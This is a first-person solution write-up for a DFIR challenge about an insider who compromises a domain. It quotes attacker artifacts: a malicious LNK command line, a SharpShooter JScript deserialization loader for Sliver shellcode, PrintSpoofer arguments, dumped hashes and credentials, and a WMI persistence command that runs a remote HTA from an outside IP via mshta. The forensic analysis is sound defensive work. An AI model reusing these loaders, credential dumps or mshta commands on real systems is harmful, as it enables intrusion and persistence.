Caught

MEGACORP, a leader in tech innovation, recently identified an insider threat: a disgruntled former employee seeking revenge after being fired.
Despite having been dismissed, he still had access to the company domain through his office credentials, providing him with the means to infiltrate further.
Leveraging his intimate knowledge of the company's defenses, he skillfully destroyed crucial evidence, anticipating where the DFIR team would look for it.
However, his meticulous plan had flaws. During the investigation, the DFIR team confiscated his laptop and found fragments of data he had failed to erase.
Your mission is to analyze these artifacts and piece together the story behind the breach to uncover the details of the attack.
Task 1
What's the full name of the former employee?
The challenge archive contains 2 zip archives. DC01 and Kali. I'll begin by taking a look at what both of them contain.

The DC01 directory seems to contain KAPE artifacts. I'm already used to those after doing lots of Windows DFIR sherlocks.

On the other hand, the kali directory contains recon logs of the attacker and their tools. I'll remember that it contains Bloodhound data as well, as it will help me with timeline reconstruction and piecing together certain events.
Looking at the users' JSON file, I can tell that there were 104 users found within the domain.
cat 20241106090408_users.json | jq | grep samaccountname | wc
It would be tedious to look through all of them. I will use jq to list every user's description. Sometimes, imminent changes like account deletion can be noted in the affected user's description by an administrator as a note or a memo.
Why jq instead of regular grep? Because Bloodhound outputs its findings in a JSON format, using jq will be quicker and will avoid grabbing additional lines with similar matching words.
cat 20241106090408_users.json | jq '.data[].Properties.description'

Sweet! Aside from the default domain accounts, every user's description is empty, aside from one. If this were not the case, I would most likely try to correlate user logon time with the attack time, or, if it were a real incident, I would inquire about the data of the fired employee.
Now, I want to grab the user whose property section contains this description. This can be done quickly with jq by matching the exact phrase with the contents of the description field. Knowing that the other users don't have a description, I could also just search for the word former, but this is a good practice.
cat 20241106090408_users.json | jq '.data[] | select(.Properties.description == "Former employee – account pending removal.")'

The employee in question is CONNOR BALL

Task 2
What was the former employee's password?
Since I have the KAPE output AND the user's username, this should be fairly straightforward as long as I have the ntds.dit file. This file is an Active Directory database, containing lots of crucial data about users, group policies, and domain settings.
Most importantly, it is guaranteed to have the most up-to-date user hashes. As long as I have the SYSTEM hive, I will be able to read it with impacket-secretsdump. The SYSTEM hive is necessary because it contains the system's bootkey, which is, in turn, necessary for decrypting the ntds.dit data.

The file is indeed present. I will use secretsdump to dump hashes of all users within the domain.
impacket-secretsdump local -system DC01/C/Windows/System32/config/SYSTEM -ntds "DC01/Active Directory/ntds.dit"

cball | aad3b435b51404eeaad3b435b51404ee:384799705d277ba2818dd3ab196a3581
I grepped for Connor's SamAccount name, as finding his hash in this list would be hard to do just like that. That said, now I have his NTLM hash, and I can try cracking it with hashcat.
(Cue in a 30min adventure because Hashcat kept segfaulting.)
In the end, I decided to run hashcat on my host.

Connor's password is falloutboy

Task 3
How many TCP ports were opened on DC01?
I'll navigate to the results dir, in the same tree where the Bloodhound results were.
I can see 19 distinct ports scanned. Running tree on the scan dir will reveal that the attacker has likely used nmap's script engine (NSE) alongside other recon tools to scan every found port.

Regardless, ths answer is 19

Task 4
What share was accessible?
Still in the recon dir, I will look at the two ports related to SMB. 139 and 445.

I can see two files in the Office share. The .lnk file has a suspicious size, which sets off an alarm in my mind. The .js file is suspicious just by itself, but I'll keep it in mind as well.

And here I can see that the attacker had READ/WRITE access to the same share. It is quite possible that these files were planted there by them in order to trick a user into executing a malicious script.

Task 5
The attacker tricked a user into opening a malicious file. What command did the victim unwittingly execute?
Under Caught/kali/exploit, I have a list of files the attacker had prepared for the attack.

The two files found in the share are there, surrounded by a bunch of other no-less suspicious files.
This .lnk file has such a name that it could trick an innocent user into clicking it. Normally, I would use LECmd from Eric Zimmerman, but I don't really want to switch between my VMs now.
Instead, I found a Perl script that should do the work.
https://github.com/lcorbasson/lnk-parse

This shortcut is actually running C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe with the arguments -Nop -sta -noni -w hidden wscript.exe MegaCorpServiceWorker.js C:\Program Files\Windows NT\Accessories\wordpad.exe It's running that .js file from the share!

Task 6
What is the decryption key for the payload?
I will investigate the .js file with Sublime Text.

There are 2 functions. An RC4 decryptor and a base64 decryptor. Alongside that, there is a b64block variable, containing giant amounts of b64-encoded text.

At the bottom, the two functions are used to decode the block, and then decrypt it with RC4, using the wdnpmsiaev key.

Task 7
Which class was used for loading the final shellcode?
I took the .js file and stripped off everything that wasn't the b64block. I saved that under MegaCorpServiceWorker.b64block, and sent it to CyberChef. My intent here is to imitate the decryption operation from the file itself, which is:
Base64 decrypt -> RC4 decrypt with the plain key

This decrypts successfully and reveals actual JavaScript code! The first thing I notice is the setversion function, which sets the COMPLUS_version value to v4.0.30319
The base64ToStream function base64-decrypts given data in memory, the serialized_obj variable is a big mess of b64 data.

At the bottom, I finally see some code that will run all the things I saw before, starting off with setting the entry_class to SharpShooter. SharpShooter is a weaponised payload generation framework.
https://www.mdsec.co.uk/2018/03/payload-generation-using-sharpshooter/

Task 8
What was the C2 used?
At this point, I realized that this was not JavaScript, but JScript (these are 2 different languages!). This changes things quite a bit, so I'll go over the functions once again, from top to bottom.
function setversion() {
new ActiveXObject('WScript.Shell').Environment('Process')('COMPLUS_Version') = 'v4.0.30319';
}
This forces the COM+ version to 4.0.30319, avoiding compatibility issues between different .NET versions.
function base64ToStream(b) {
var enc = new ActiveXObject("System.Text.ASCIIEncoding");
var length = enc.GetByteCount_2(b);
var ba = enc.GetBytes_4(b);
var transform = new ActiveXObject("System.Security.Cryptography.FromBase64Transform");
ba = transform.TransformFinalBlock(ba, 0, length);
var ms = new ActiveXObject("System.IO.MemoryStream");
ms.Write(ba, 0, (length / 4) * 3);
ms.Position = 0;
return ms;
}
Using .NET tools within JScript, this function takes the b64 chunks and transforms them into raw bytes, which are then loaded into memory with System.IO.MemoryStream. This results in a fileless, memory-only object that will be very hard to detect with normal means.
try {
setversion();
var stm = base64ToStream(serialized_obj);
var fmt = new ActiveXObject('System.Runtime.Serialization.Formatters.Binary.BinaryFormatter');
var al = new ActiveXObject('System.Collections.ArrayList');
var n = fmt.SurrogateSelector;
var d = fmt.Deserialize_2(stm);
al.Add(n);
var o = d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class);
In short, this bit is responsible for taking the decoded object and running it in memory. It is much more complex than that, and I'll try to explain it in more detail below.
var fmt = new ActiveXObject('System.Runtime.Serialization.Formatters.Binary.BinaryFormatter');
The BinaryFormatter tool is used to take an object, save it to a file, and load it back later. However, it has a known flaw that can be abused to achieve code execution.
var al = new ActiveXObject('System.Collections.ArrayList');
This creates a .NET array. My understanding as to why is that JScript is pretty old, and its arrays may be different from modern .NET ones. Later, the attacker will probably want to pass arguments to a .NET function, and this array will be used to hold them.
var n = fmt.SurrogateSelector;
This is supposed to grab something from the fmt object, though I am not quite sure what purpose this line serves.
var d = fmt.Deserialize_2(stm);
Here, the memory stream from stm is read by the formatter. However, d is not just a simple data object at this point.
Because of the way the object was crafted, d becomes a delegate. A delegate is a pointer to a function like System.Reflection.Assembly.Load, which is capable of loading software into memory.
al.Add(n);
This adds the something from n to the argument array from earlier. It might just be a NULL value used to fulfill an argument amount requirement, or something else. I'm not sure.
var o = d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class);
This is the most complex line, but also the most telling. This is what helped me figure out that d is actually a delegate.
How? The DynamicInvoke method belongs to the System.Delegate class.
https://learn.microsoft.com/en-us/dotnet/api/system.delegate.dynamicinvoke?view=net-10.0
The al argument array is passed into that method. At this point, it contains only the value of n
Essentially, it is executing the function d with an argument of n. I'm leaning towards n being empty/NULL, which could mean that d already contains malicious code, and just requires an argument to run its functions.
The result of d.DynamicInvoke is then taken, and CreateInstance is run against it, searching for the SharpShooter class within the loaded object, which is most definitely a DLL, taking in everything I know about it so far.
After all this, o becomes a live, instantiated object of that class, ready to execute commands defined within the malicious DLL.
After the try{} block, the sc variable is defined. It contains yet another b64 blob, and the name sc could expand to shellcode. The mentioned class could possess the functionality necessary to process this string and execute the shellcode in memory.
I saved the code into a file with CyberChef, and deleted everything besides the sc variable. I then decoded it from b64 and saved it into a separate file, which I then sent to VirusTotal for scanning.

Certain AVs flag this shellcode as related to Sliver. Many commenters have also done the same, which makes me certain that this is, in fact, Sliver C2 shellcode.
The last thing this script does is pass the shellcode into a custom Go function within the loaded DLL. It is most likely responsible for executing the shellcode in memory.

Task 9
The attacker used a well-known tool to escalate their privileges. Which Windows privilege does this tool exploit?
Looking at the attacker's exploit list, I can identify 2 well-known tools. Mimikatz and PrintSpoofer.
Mimikatz doesn't have a single specific privilege that it exploits, while PrintSpoofer exploits SeImpersonatePrivilege specifically. If I did not know this, I would look into the PrintSpoofed GitHub page, and it would become clear quickly.
https://github.com/itm4n/PrintSpoofer

Task 10
What are the arguments used to gain full NT Authority System?
The attacker tried to clear their tracks, and this proved to be a nuisance, especially here. My usual methods of tracking command execution (event logs, PowerShell history, etc) returned nothing.
Having the attacker's tooling, I suspected it must've been either involving one of MegaCorpSync.bin MegaCorpSync.exe MegaCorpUpdater.msi, or just running a reverse shell.
Out of ideas, I ran strings against these 3 files, and found something I did not expect.

MegaCorpSync.bin contains an argument of -c c:\windows\tasks\MegaCorpSync.exe, which looks suspiciously compatible with PrintSpoofer.

Task 11
What is the name of the Git repository the attacker used to generate MegaCorpSync.exe?
While running strings against the 3 files earlier, I also found an interesting path within MegaCorpSync.exe.

C:\Users\jigsaw\Source\Repos\OSEP-Code-Snippets\Shellcode Process Hollowing\obj\x64\Release\Shellcode Process Hollowing.pdb
This is just a .pdb file path, but the Repos directory contains the OSEP-Code-Snippets, meaning it is a repository. A .pdb file is created during compilation, and its path can reveal a bunch of interesting information, like the author's username, the directory path of the executable, and the project directory tree.

Task 12
What is the host name of the workstation that has been compromised?
In the attacker's loot directory, I can see a mimikatz.log file.

The attacker confirms their privileges (SeDebugPriv means that they were running as SYSTEM at this point), and dumps authentication secrets from lsass.exe.
osmith | ee57a7abe466312ffdd98e4041f37253
Aside from osmith, the attacker also found a different pair of credentials.

mtucker | LUmRfx9h22jhpEj
Not only that, but they have also found credentials for the compromised machine's account as well.

WS01$ | b0997a1b9786ebdc8e68af4086ed20eb

Task 13
What was the SAM Account Name of the user that was compromised?
This has been answered while solving task 12. The answer is osmith

Task 14
What were the plaintext user's credentials that were cached on the compromised workstation?
This has also been answered while solving task 12, and the answer is mtucker:LUmRfx9h22jhpEj

Task 15
To which group did the previous user initially belong?
This information is stored in the Active Directory database I've talked about before, ntds.dit. I'll use ntdissector to get readable data out of this file.
https://github.com/synacktiv/ntdissector

The group and user data has been picked out into JSON files, making looking through them nice and easy. Since I know the sAMAccountName of that user, I will use it to find that user object.
cat ntdsout/out/e2d9644a8d5f3b1bf4f23bb3ade4a260/user.json | jq 'select(.sAMAccountName == "mtucker")'

Molly is a member of 3 groups... However, this data is from AFTER the attacker had modified the domain. Some of these groups did not contain Molly originally, and I can find out which by looking at the BloodHound output from the attacker's recon directory.
I'm going to grab Molly's SID S-1-5-21-3335886548-1976288829-1586005320-1612, as BloodHound's groups.json lists group members by SIDs, not by samaccountname.
cat kali/recon/bloodhound/20241106090408_groups.json | jq '.data[] | select(.Members[]?.ObjectIdentifier == "S-1-5-21-3335886548-1976288829-1586005320-1612")'

The only result is the developers group. The remaining two were a result of the attacker's actions.

Task 16
Which privilege enabled the attacker to pivot to another group? (Format: AD object,privilege,AD object - AD objects must be inserted without the @domain)
I'll take the developers group SID, and I'll look through every group's ACE list to find groups over which developers have rights.
cat kali/recon/bloodhound/20241106090408_groups.json | jq '.data[] | select(.Aces[]?.PrincipalSID == "S-1-5-21-3335886548-1976288829-1586005320-1603")'

The only entry is the engineers group. Developers have GenericAll rights over engineers.


Task 17
To which groups does the previous user currently belong? (Sort them alphabetically and separate them with a comma)
I already saw the 3 groups while looking through the ntdissector output in task 15. The answer is Administrators,Developers,Engineers

Task 18
Which privilege enabled the attacker to gain Local Admin? (Format: AD object,privilege,AD object - AD objects must be inserted without the @domain)
Just like before, I grabbed the group SID to find what its members can do.
cat kali/recon/bloodhound/* | jq '.data[] | select(.Aces[]?.PrincipalSID == "S-1-5-21-3335886548-1976288829-1586005320-1602")'

Members of the engineers group have GenericWrite over the MEGAPOLICY. I took its ObjectIdentifier to check where it applies.

There is only this one domain in the domains.json. Looking at the links array, I see a familiar-looking value.

The GUID of the first link corresponds to the MEGAPOLICY. Because it is linked to the domain itself AND is enforced, it will apply to every user and every computer within the domain, no exceptions. This gives the attacker control over the entire domain, as they can create schtasks as system, create users, or add existing ones to local administrators on workstations OR the DC itself.

Task 19
What is the full path of the tool that was used to gain Local Admin?
Knowing that the attacker abused this GPO for privesc to LA, I am confident that the tool they used is SharpGPOAbuse.exe
To find out where they had dropped this file on the filesystem, I will look through the $MFT journal with MFTECmd.

The full path will be C:\Windows\Tasks\SharpGPOAbuse.exe

Task 20
What is the full name of the new user added?
I will compare both user.json files to see which user has been added. That user will be present in the ntds users, but will no be present in the BloodHound output.
cat ntdsout/out/e2d9644a8d5f3b1bf4f23bb3ade4a260/user.json | jq | grep sAMAccountName | awk -F'"' '{print $4}' > ndtsusers
cat kali/recon/bloodhound/20241106090408_users.json | jq | grep samaccountname | awk -F'"' '{print $4}' '> bhoundusers
Having both of these lists, I will compare them with diff to see the differences.
However, there are a lot of "false positives". This is because the files have users listed in a different order. To fix this, I can sort the files before comparing them, which should make them identical, save for the user I'm looking for.
diff <(sort ndtsusers) <(sort bhoundusers)
A user with the samaccount name of rooi exists in the ntds.dit file, but it does not exist in the BH output. This is the attacker-added user, and to get their full name, I will look for them in users.json.
cat ntdsout/out/e2d9644a8d5f3b1bf4f23bb3ade4a260/user.json | jq 'select(.sAMAccountName == "rooi")'
Robbin Ooi is the attacker-added user.
Task 21
What was the name of the object set for persistence?
This and the next task took me a good while to figure out, as I've never encountered this persistence mechanic before!
I looked for clues related to known persistence options like schtasks, autostart directory, and logon scripts, and found nothing. After that, I found a peculiar directory that I didn't pay much attention to beforehand.
This is a WMI (Windows Management Instrumentation) repository, also known as the CIM (Common Information Model) Repository. It is a central database that stores definitions, meta-information, and some static data for WMI classes, which Windows and third-party applications use to manage and monitor system components.
Attackers often use WMI to establish persistence by creating Event Filters and Event Consumers. These allow malicious scripts to run automatically when certain system events occur (e.g., at a specific time or when a user logs in).
I will use the flare-wmi repo to look through this WMI repository.
https://github.com/mandiant/flare-wmi/tree/master

I'll start by running timeline.py to get a look at all the existing classes.
python flare-wmi/python-cim/samples/timeline.py DC01/C/Windows/System32/wbem/Repository/
This RegistryBackup class looks out of place, and its timestamp matches the day of the attack. I'll have a closer look at it.
python flare-wmi/python-cim/samples/dump_class_definition.py win7 DC01/C/Windows/System32/wbem/Repository/ root\\cimv2 RegistryBackup
The data key contains a long, hex-like string. I'll decode it with xxd.
This uncovers a base64 string, which looks very suspicious to me. I'll pipe this to base64 -d to see the final string.
cmd /c 'mshta http://45.123.76.89/MEGACORP_DataSync.hta
Task 22
What was the payload set for persistence?
I already know the payload, so I'll take this opportunity to analyze it a bit more.
Mshta is a LOLBAS capable of downloading files from the internet, not necessarily limited to .hta files. It uses the same engine as Internet Explorer but runs as a fully trusted application outside of the browser sandbox. This means it can modify registry keys, files, and system resources without warning the user.
This command will not leave a trace on disk. The .hta file will be executed by mshta in memory, never written onto the disk.
A .hta file (HTML Application) is essentially a hybrid between a webpage and a desktop application. It contains both HTML/CSS and VBScript/JScript, serving as a potent weapon for an attacker.
https://en.wikipedia.org/wiki/HTML_Application
Solved!
BONUS: Alternate way of finding Task22 answer
During my initial solve, I somehow missed the possibility of dumping the class directly. As a result, I thought that the attacker had cleaned up this as well as they have been pretty diligent, and looked for ways to look through unallocated/deleted data.
python flare-wmi/python-cim/samples/find_bytes.py DC01/C/Windows/System32/wbem/Repository RegistryBackup
It found my needle RegistryBackup on physical page 0x568 offset 0x1ead. This data is probably living inside the Index B-Trees or the mapping files of the WMI repository.
With the page number, I can use dump_pages.py to dump the entire page.
python flare-wmi/python-cim/samples/dump_page.py DC01/C/Windows/System32/wbem/Repository 0x568
And here's the very same base64 string! This is how I found the answer while solving the challenge for the first time.